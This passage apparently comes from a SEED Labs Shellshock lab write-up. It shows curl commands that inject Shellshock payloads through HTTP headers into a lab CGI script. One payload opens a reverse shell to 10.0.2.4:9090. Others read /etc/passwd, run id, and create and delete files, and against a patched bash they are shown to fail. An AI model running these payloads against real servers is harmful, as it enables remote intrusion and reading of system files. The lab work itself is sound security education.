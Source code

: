 ```bash
03/12/22]seed@VM:~/.../ssi$ curl -H "Accept: () { echo hello ; } ; echo Content_type: text/plain; echo; /bin/bash -i > /dev/tcp/10.0.2.4/9090 0<&1 2>&1" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
```

### Task 5

In this task, we were asked to use the `/bin/bash/` patched shell to issue the attack. By changing the CGI scripts not to use the shellshock vulnerable bash we expect the attack to be unsuccessful. We simply change the `vul.cgi` and `getenv.cgi` scripts' first line to `#!/bin/bash`. 

```bash
[03/12/22]seed@VM:~/.../ssi$ curl -H "User-Agent: () { echo hello; } ; echo Content_type: text/plain; echo; /bin/cat /etc/passwd" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi

Hello World
[03/12/22]seed@VM:~/.../ssi$ curl -H "Attack: () { echo hello; } ; echo Content_type: text/plain; echo; /bin/id" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi

Hello World
[03/12/22]seed@VM:~/.../ssi$ curl -H "Attack: () { echo hello; } ; echo Content_type: text/plain; echo; /bin/touch /tmp/hacked.txt" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi

Hello World
[03/12/22]seed@VM:~/.../ssi$ curl -H "Accept: () { echo hello; } ; echo Content_type: text/plain; echo; /bin/rm /tmp/hacked.txt" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi

Hello World
[03/12/22]seed@VM:~/.../ssi$ 
```

As shown, the attacks were not successful and no commands were executed on the server-side.